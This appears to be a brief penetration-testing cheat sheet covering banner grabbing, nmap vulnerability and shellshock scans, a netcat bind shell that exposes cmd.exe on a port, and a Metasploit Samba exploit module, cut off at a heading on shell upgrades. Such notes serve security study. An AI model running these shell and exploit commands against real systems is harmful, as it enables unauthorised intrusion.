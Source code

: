 # Vulnerability Scanning

## Banner grabbing

```shell
ls -al /usr/share/nmap/scripts/ | grep banner
nc -v [ip] [port]
ssh root@[ip]
```

## Vulnerability scanning with nmap

```shell
ls -al /usr/share/nmap/scripts/ | grep http
nmap -sV --script=http-enum -p80
ls -al /usr/share/nmap/scripts/ | grep vuln
nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" # cgi script found in the html index
```


# Netcat bind shell

```shell
nc.exe -nvlp 1234 -e cmd.exe
nc -nv [ip] [port]
```

# Samba

`use exploit/linux/samba/is_known_pipename`
Non-interactive shell upgrade:
